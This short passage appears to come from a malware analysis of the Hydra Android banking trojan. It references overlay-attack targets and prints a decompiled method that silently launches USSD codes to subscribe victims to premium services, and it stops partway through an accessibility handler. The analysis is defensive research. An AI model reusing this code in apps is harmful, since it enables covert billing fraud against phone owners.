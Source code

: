 <p align="center">
  <img src="/assets/images/MA/hydra/5.png" />
</p>
<center><font size="3"> <u>Figure</u>(5) targeted apps which contains html files to perform overlay attack<u></u> </font></center>
<br>

# Premium services

The malware will try to subscribe to a premium service without the knowledge of the user which will charge the SIM more money.

```cs
private void launchUssdCode(Context context0, String s) throws Exception {
        this.ussdCalledTimeInMs = System.currentTimeMillis();
        Timber.d("log -> [%s]", new Object[]{s});
        Intent intent0 = new Intent("android.intent.action.CALL", Uri.parse("tel:" + s.replaceAll("#", Uri.encode("#"))));
        intent0.addFlags(0x10000000);
        intent0.addFlags(0x20000000);
        context0.startActivity(intent0);
    }

    public boolean onAccessibilityEvent(InjAccessibilityService injAccessibilityService0, AccessibilityEvent accessibilityEvent0, String s) {
```